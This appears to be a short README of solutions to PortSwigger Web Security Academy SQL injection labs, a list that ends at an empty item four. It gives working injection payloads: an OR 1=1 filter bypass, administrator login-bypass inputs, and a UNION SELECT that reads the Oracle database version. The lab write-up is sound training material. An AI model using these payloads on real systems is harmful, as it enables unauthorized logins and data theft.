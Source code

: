 # PS-academy-Labs

1. https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data
     /filter?category=Clothing%2c+shoes+and+accessories%27%20OR%201%3D1%20--%20
     ' OR 1=1 -- 
2. https://portswigger.net/web-security/sql-injection/lab-login-bypass
   Solution #1
   administrator
   ' OR 1=1 --

   Solution #2
   administrator'--
  
3. https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle
   /filter?category=%27+UNION+SELECT+BANNER,NULL+FROM+v$version--
4. 
